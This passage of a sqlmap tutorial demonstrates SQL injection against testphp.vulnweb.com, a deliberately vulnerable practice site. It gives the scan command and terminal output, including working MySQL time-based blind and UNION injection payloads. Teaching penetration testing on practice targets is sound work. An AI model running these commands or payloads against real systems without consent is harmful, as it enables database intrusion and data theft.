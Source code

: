 Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run sqlmap -hh to display the advanced help message.

## Demo

### GET based Method

Browse to target site [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/){:target="\_blank"}. Using sqlmap to retrieve login data from website

(This is a demo website so you can try it out.)

![http://testphp.vulnweb.com/](/posts/sqlmap/1.png)

1. Open terminal and enter the below command

   ```bash
   sqlmap -u "http://testphp.vulnweb.com/search.php?test=query"
   ```

   `-u`: the target site url
   The SQLMap'll detect the target's vulnerabilities and return the information of them.

   ```shell
   ┌──(dyl4n㉿kali)-[/]
   └─$ sqlmap -u "http://testphp.vulnweb.com/search.php?test=query"
           ___
          __H__
    ___ ___["]_____ ___ ___  {1.7.2#stable}
   |_ -| . [(]     | .'| . |
   |___|_  ["]_|_|_|__,|  _|
         |_|V...       |_|   https://sqlmap.org

   [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

   [*] starting @ 04:53:43 /2023-04-20/

   [04:53:43] [INFO] resuming back-end DBMS 'mysql'
   [04:53:43] [INFO] testing connection to the target URL
   sqlmap resumed the following injection point(s) from stored session:
   ---
   Parameter: test (GET)
       Type: time-based blind
       Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
       Payload: test=query' AND (SELECT 8297 FROM (SELECT(SLEEP(5)))EfaF) AND 'ekJi'='ekJi

       Type: UNION query
       Title: Generic UNION query (NULL) - 3 columns
       Payload: test=query' UNION ALL SELECT NULL,CONCAT(0x7170627671,0x644b7762646447676e584f55746d49474a424d47796457714777664474694d624163684657445368,0x71626a7671),NULL-- -
   ---
   [04:53:44] [INFO] the back-end DBMS is MySQL
   web server operating system: Linux Ubuntu
   web application technology: Nginx 1.19.0, PHP 5.6.40
   back-end DBMS: MySQL >= 5.0.12
   [04:53:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'

   [*] ending @ 04:53:44 /2023-04-20/
   ```
